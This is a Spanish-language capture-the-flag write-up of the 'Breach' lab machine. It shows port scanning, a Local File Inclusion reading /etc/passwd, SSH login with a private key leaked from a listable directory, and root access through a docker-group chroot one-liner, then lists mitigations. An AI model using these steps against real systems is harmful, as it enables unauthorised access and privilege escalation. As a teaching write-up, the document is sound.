










## Información General

| Campo                    | Detalle                                             |
| ------------------------ | --------------------------------------------------- |
| **Nombre de la máquina** | Breach                                              |
| **Plataforma**           | whoami-labs                                         |
| **Dificultad**           | Facil                                               |
| **Sistema Operativo**    | Linux (Debian)                                      |
| **IP**                   | 172.17.0.2                                          |
| **Servicios expuestos**  | 22 (SSH - OpenSSH 8.4p1), 80 (HTTP - Apache 2.4.67) |

## Resumen del Ataque

El vector inicial fue un Local File Inclusion (LFI) en el parámetro `page` de `index.php`, descubierto tras enumerar directorios con dirsearch. La explotación del LFI leyendo `/etc/passwd` confirmó el usuario `devops` como cuenta con shell válida en el sistema. La enumeración de directorios reveló `/internal/`, un listado accesible que exponía una clave privada SSH (`id_rsa`) etiquetada como "devops backup key". Con esa clave se obtuvo acceso SSH directo como el usuario `devops`. La escalada de privilegios se logró al comprobar que `devops` pertenecía al grupo `docker`, lo que permitió montar el sistema de archivos raíz del host dentro de un contenedor Alpine (`docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash`) y obtener una shell como root mediante chroot, típico escape por socket/grupo Docker mal configurado.

## Técnicas Usadas

- Escaneo de puertos con Nmap (`-p-`, `-sC -sV`)
- Enumeración de directorios y ficheros web con dirsearch
- Local File Inclusion (LFI) vía parámetro GET `page`
- Exposición de credenciales (clave SSH privada) en directorio listable
- Acceso SSH con clave privada
- Escalada de privilegios por pertenencia al grupo `docker` (Docker socket group privilege escalation / container escape vía montaje del host)

## Desarrollo

**1. Escaneo inicial de puertos**

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```



**2. Enumeración de versiones y scripts por defecto**

```
nmap -p 22,80 -sC -sV -oN allports 172.17.0.2
```



**3. Revisión inicial del servicio web**

```
http://172.17.0.2/
```



Plantilla por defecto de Apache; sin información relevante en el código fuente.

**4. Enumeración de contenido web**

```
dirsearch -u http://172.17.0.2/ --exclude-status 403,404,500 -e php,txt,html
```



**5. Identificación y explotación de LFI**

```
http://172.17.0.2/index.php?page=home.php
```

El parámetro `page` carga ficheros dinámicamente, indicando posible inclusión de archivos.

```
http://172.17.0.2/index.php?page=/etc/passwd
```



Confirmado LFI funcional y presencia de usuario `devops` con shell válida.

**6. Acceso al directorio interno expuesto**

```
http://172.17.0.2/internal/
```



**7. Obtención de acceso SSH con la clave filtrada**

```
chmod 600 id_rsa
ssh -i id_rsa devops@172.17.0.2
```

```
devops@breach:~$ whoami
```



**8. Enumeración de privilegios**

```
devops@breach:~$ sudo -l
-bash: sudo: command not found
```

```
devops@breach:~$ id
```



`sudo` no disponible, pero el usuario pertenece al grupo `docker`, vector de escalada directo.

**9. Escalada a root vía escape de contenedor Docker**

```
devops@breach:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/bash
```

```
root@1b3b1ca58287:/# whoami
```



**10. Captura de flag**

```
root@1b3b1ca58287:~# cat flag.txt 
```




## Lecciones Aprendidas

- Un LFI, aunque no permita ejecución directa de código, puede filtrar información crítica del sistema (usuarios válidos) y guiar hacia otros vectores.
- Directorios listables sin autenticación son un vector real de fuga de credenciales, no solo de "información".
- La pertenencia a un grupo privilegiado como `docker` equivale, en la práctica, a acceso root. Docker no aplica aislamiento de privilegios sobre los usuarios que pueden hablar con su socket.

## Medidas de Mitigación

- Sanitizar y validar el parámetro `page`, usando listas blancas de archivos permitidos en lugar de inclusión dinámica directa.
- Deshabilitar el listado de directorios (`Options -Indexes` en Apache) y nunca almacenar claves privadas dentro del webroot.
- No añadir usuarios sin privilegios al grupo `docker` salvo necesidad estricta; considerar alternativas como rootless Docker o Podman.
- Rotar cualquier clave SSH expuesta y auditar accesos tras una fuga de credenciales.

